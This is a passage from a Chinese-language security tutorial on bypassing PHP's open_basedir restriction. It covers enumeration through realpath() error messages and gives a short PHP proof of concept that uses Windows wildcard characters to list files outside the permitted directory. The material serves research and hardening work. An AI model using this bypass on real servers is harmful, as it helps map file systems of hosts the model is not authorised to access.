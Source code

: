 执行我们可以发现，open_basedir为/usr/share/nginx/www/:/tmp/，但我们成功列举了/根目录下的所有文件：

![enter image description here](http://drops.javaweb.org/uploads/images/32c4fd8e6e513e7a9d2c48fb6c4cb1e29378c9af.jpg)

这个方法也是迄今为止最方便的方法，他不用暴力猜解目录，而是直接列举。但他对php版本、系统版本有一定要求，在5.3以上可列举（5.5/5.6可能会有修复？在官方没看到有fix），需要在Linux下才能绕过open_basedir。

0x03 realpath列举目录
=====

这是@/fd 脚本（http://zone.wooyun.org/content/11268）里给出的第二个方法。

Realpath函数是php中将一个路径规范化成为绝对路径的方法，它可以去掉多余的../或./等跳转字符，能将相对路径转换成绝对路径。

在开启了open_basedir以后，这个函数有个特点：当我们传入的路径是一个不存在的文件（目录）时，它将返回false；当我们传入一个不在open_basedir里的文件（目录）时，他将抛出错误（File is not within the allowed path(s)）。

所以我们可以通过这个特点，来进行目录的猜解。举个例子，我们需要猜解根目录（不在open_basedir中）下的所有文件，只用写一个捕捉php错误的函数err_handle()。当猜解某个存在的文件时，会因抛出错误而进入err_handle()，当猜解某个不存在的文件时，将不会进入err_handle()。

那么由此我们来算算效率。假如一个文件名长度为6位（如config、passwd等全小写不带数字）的文件，我们最差需要枚举多少次才能猜测到他是否存在：

26 ** 6 = 308915776次

![enter image description here](http://drops.javaweb.org/uploads/images/62ed596f1fc8453173935b50a7689f6b7aec6f89.jpg)

这样是需要跑很久的，基本每次跑的时候我都没耐心了，这样暴力猜解肯定是不行的。那么，有什么好办法可以变这个“鸡肋”的漏洞为一个“好用”的漏洞？

熟悉Windows + PHP的同学应该还记得Windows下有两个特殊的通配符：<、>

对，我们这里就借用这些通配符的力量来列举目录。写个简单的POC来列举一下：

```
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    realpath($file);
}
function isexists($errno, $errstr)
{
    $regexp = '/File\((.*)\) is not within/';
    preg_match($regexp, $errstr, $matches);
    if (isset($matches[1])) {
        printf("%s <br/>", $matches[1]);
    }
}
?>

```

首先设置open_basedir为当前目录，并枚举d:/test/目录下的所有文件。将错误处理交给isexists函数，在isexists函数中匹配出目录名称，并打印出来。
